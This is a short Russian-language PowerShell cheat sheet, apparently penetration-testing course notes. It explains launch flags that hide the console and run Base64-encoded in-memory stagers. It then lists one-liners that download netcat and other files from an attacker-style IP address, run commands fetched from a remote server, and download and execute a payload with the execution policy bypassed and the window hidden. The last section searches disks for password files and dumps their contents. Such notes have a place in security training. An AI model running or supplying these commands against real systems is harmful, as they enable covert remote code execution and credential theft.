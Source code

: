 # Параметры запуска powershell

`-NoP` сокращение NoProfile. Предотвращает PowerShell пользовательские настройки из профиля

`-NonI` предотвращает отображение пользователю интерактивной подсказки

`-W Hidden` задает окну PowerShell стиль _Hidden_, чтобы на экране не появлялась консоль PowerShell. Отметим, bat-файл, который запускает PowerShell показывает консоль, а PowerShell нет.

`-Command` команда, которая будет исполнена. В этой команде, закодированной Base64, содержится stage и stager, загружаемый в памяти и исполняемый там. 


# Полезные командлеты Powershell

## Invoke-WebRequest

Позволяет выполнять запросы. В том числе скачивать файлы. 
Работает с Windows 8 (Powershell v3).

`Invoke-WebRequest -OutFile ./netcat.zip -Uri http://192.168.1.114/SEC560/netcat.zip`

## System.Web.WebClient
Доступен с Windows 7 (Powershell v2)

`(New-Object System.Net.WebClient).DownloadFile("http://192.168.1.114/data.zip", "data.zip")`

## Выполнить команду с удаленного веб-сервера

`Invoke-Expression (Invoke-WebRequest -Uri http://192.168.1.114/command.txt).Content`

## Загрузить и исполнить файл

`powershell.exe -exec bypass -noprofile -windowstyle hidden -Command "IEX (New-Object Net.Webclient).downloadstring('http://192.168.1.114:8000/payload.bat')"`

## Рекурсивный поиск файла по регулярному выражению его имени

`ls -r C:\rootdirectory *password*.txt`

Извлекает содержимое:

`ls -r c:\rootdirectory *password*.txt | cat`

`ls -r c:\rootdirectory *password*.txt | gc`

`ls -r C:\rootdirectory *password*.txt | % { echo $_.fullname; gc $_.fullname }`

## Рекурсивный поиск содержимого файла по регулярному выражению

`ls -r C:\rootdirectory | select-string -pattern password 2>$null`

`get-childitem -path c:\rootdirectory -recurse -exclude *.js,*.php,*.css,*.jpg,*.svg,*.scss,*.gif | select-string Password: | gc`




